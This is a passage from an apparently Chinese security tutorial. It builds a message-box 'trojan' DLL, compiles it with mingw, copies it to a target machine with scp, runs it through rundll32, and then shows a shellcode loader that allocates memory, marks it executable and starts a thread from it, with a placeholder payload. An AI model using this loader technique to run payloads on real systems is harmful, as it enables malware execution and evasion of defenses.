```
    case DLL_PROCESS_DETACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
        break;
    }
    return TRUE;
}

extern "C"{
__declspec(dllexport) BOOL WINAPI HelloWorld(void){

    MessageBox(NULL, "Welcome", "Security", MB_OK);
    return TRUE;
    }
}
```
## 编译
```
x86_64-w64-mingw32-g++ --shared muma.cpp -o muma.dll
```
![image.png](https://img-blog.csdnimg.cn/img_convert/895f7911a8fc97b2583e8f36b0e014c1.png#averageHue=#050608&clientId=u722c5723-9e25-4&from=paste&height=303&id=u962db4ed&originHeight=273&originWidth=633&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=37878&status=done&style=none&taskId=ufe051c51-03d4-44fa-88fa-46fcf2927a5&title=&width=703.3333519653042)
把dll转移到靶机上
```
scp kali@192.168.0.110:/home/kali/bypass/muma.dll .
```
![image.png](https://img-blog.csdnimg.cn/img_convert/2f41a4d4c9fcd6f23b07532b6c4c0301.png#averageHue=#111111&clientId=u722c5723-9e25-4&from=paste&height=419&id=u39a890e3&originHeight=377&originWidth=1073&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=31791&status=done&style=none&taskId=ue5be06a9-efc8-4d54-9802-b688f8c5765&title=&width=1192.222253805326)
执行命令运行dll文件
```
rundll32.exe .\muma.dll, HelloWorld
```
HelloWorld是执行这里的代码
![image.png](https://img-blog.csdnimg.cn/img_convert/4a90cbbda33d6fa991badf9593abd094.png#averageHue=#181a1b&clientId=u722c5723-9e25-4&from=paste&height=147&id=u32e9da59&originHeight=132&originWidth=606&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=7835&status=done&style=none&taskId=uc20c0102-b746-4144-9e2e-96e96e00e01&title=&width=673.3333511705756)
![image.png](https://img-blog.csdnimg.cn/img_convert/550a86567b407b80ba6a188a285fb91a.png#averageHue=#a79563&clientId=u722c5723-9e25-4&from=paste&height=181&id=u82383714&originHeight=163&originWidth=154&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=5509&status=done&style=none&taskId=ub86481f4-45ff-4ff8-ad21-541115e6e8f&title=&width=171.11111564400767)
这就是一个常见的弹窗dll
然后可以使用上面的那个将shellcode加载入windows内存里执行的代码来配合
```
unsigned char payload[] = "\x00";


    LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    if (!alloc_mem) {
        printf("Failed to Allocate memory (%u)\n", GetLastError());
        return -1;
    }
    
    MoveMemory(alloc_mem, payload, sizeof(payload));

    DWORD oldProtect;

    if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
        printf("Failed to change memory protection (%u)\n", GetLastError());
        return -2;
    }


    HANDLE tHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)alloc_mem, NULL, 0, NULL);
    if (!tHandle) {
        printf("Failed to Create the thread (%u)\n", GetLastError());
        return -3;
```